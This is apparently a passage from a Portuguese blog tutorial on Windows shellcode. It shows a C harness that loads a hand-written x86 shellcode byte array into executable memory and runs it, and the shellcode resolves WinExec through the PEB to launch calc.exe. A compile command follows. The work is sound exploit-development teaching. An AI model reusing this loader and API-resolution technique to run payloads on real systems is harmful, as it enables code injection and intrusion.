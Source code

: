 Inserindo o *shellcode* no programa de teste, temos o seguinte resultado:

```c
#include <stdio.h>
#include <stdlib.h>
#include <windows.h>

unsigned char shellcode[] =
"\x31\xc0\x64\xa1\x30\x00\x00\x00\x8b\x40\x0c\x8b\x40\x14\x8b\x00\x8b\x00\x8b\x40\x10\x31\xd2\x68\x78\x65\x63\x4e\x66\x83\x6c\x24\x03\x4e\x68\x57\x69\x6e\x45\x8b\x50\x3c\x01\xc2\x8b\x52\x78\x01\xc2\x8b\x4a\x20\x01\xc1\x89\x4d\xfc\x8b\x52\x1c\x01\xc2\x31\xdb\x31\xc9\x89\xe6\x8b\x7d\xfc\x8b\x3c\x9f\x01\xc7\x66\x83\xc1\x04\xf3\x66\xa7\x74\x03\x43\xe2\xe8\x83\xc3\x01\x8b\x3c\x9a\x01\xf8\x51\x68\x2e\x65\x78\x65\x68\x63\x61\x6c\x63\x89\xe3\x41\x51\x53\xff\xd0";
int main() {
    size_t shellcode_size = sizeof(shellcode) - 1;

    void *exec_mem = VirtualAlloc(0, shellcode_size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    if (exec_mem == NULL) {
        fprintf(stderr, "Falha na alocação de memória.\n");
        exit(EXIT_FAILURE);
    }

    memcpy(exec_mem, shellcode, shellcode_size);

    void (*func)() = (void(*)())exec_mem;
    func();

    return 0;
}
```

E podemos compilá-lo:

```bash
i686-w64-mingw32-gcc winshelltest.c -o winshelltest.exe
```

Ao executarmos o programa, o *shellcode* é ativado, abrindo a calculadora.

![](/img/posts/Pasted%20image%2020240718194850.png)